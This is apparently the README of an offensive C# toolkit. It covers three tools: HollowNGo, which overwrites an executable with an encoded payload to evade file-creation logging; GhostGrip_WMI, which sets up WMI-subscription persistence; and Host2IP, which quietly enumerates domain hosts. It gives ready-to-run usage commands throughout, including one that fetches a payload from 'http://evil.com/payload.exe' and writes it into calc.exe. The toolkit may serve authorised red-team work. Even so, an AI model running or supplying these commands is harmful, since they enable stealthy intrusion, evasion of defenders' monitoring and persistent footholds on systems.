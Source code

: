![Alt text](https://github.com/MrR4tC4k3/SharpC4k3s/blob/b825632945a7a26b496f8f9cf7cad4e87674cef8/examples/SHARP.png)

HollowNGo aims to avoid FileCreation Events by reading your payload as a byte array, compressing them, and converting the compressed bytes to base64 to a memorysteam. setting the target file stream length to 0, then the same encoding operation in reverse to write to the target file. There are a few options when running the tool as shown below.

Create compressed encoded binary data (This is expected to run on your dev box not the target)
HollowNGo.exe -encode <source.exe> -output <output.txt>
Example: HollowNGo.exe C:\Users\User\Documents\MyEvil.Exe -output EvilB64.txt

Via data output from -encode option
HollowNGo.exe -source <base64_content> -target <target.exe>
Example: dotnet inline-execute HollowNGo.exe -sourcelocal <EvilB64.Code> -target C:\Windows\System32\calc.exe

Via remote hosted file
Usage: UsageHollowNGo.exe -sourceremote <SourceURI> -target <target.exe>
Example: dotnet inline-execute HollowNGo.exe -sourceremote http://evil.com/payload.exe -target C:\Windows\System32\calc.exe



GhostGrip_WMI creates a WMIEventSubscription for your prefered event for persistence and execution method. Use HollowNGo prior to set up your executable to avoid FileCreation Events.

Usage: GhostGrip_WMI.exe -location <path_to_executable> -type <time/logon/eventcode> -execution <executiontype> -randomizename <true/false>
Example dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type eventcode -eventcode 4726 -execution direct -randomizename true
Example dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type logon -execution invoke-wmimethod -randomizename false



Host2IP aims to be a little less noisy than SMB/ICMP scans to find hosts within a domain environment. Host2IP uses LDAP queries to get a list of hostnames, which are then resolved via DNS, achieved via slow/fast mode to control the network traffic rate. If your current process does not have not have the correct domain priviliges you will have to provide credentials.

Usage: Host2IP.exe -domain <domain_name> -mode <fast/slow> -auth <true/false> -user <username> -password <password>
Example: dotnet inline-execute Host2IP.exe -domain target.local -mode fast -auth false
Example: dotnet inline-execute Host2IP.exe -domain target.locol -mode slow -auth true -user TheRat -password pass123!


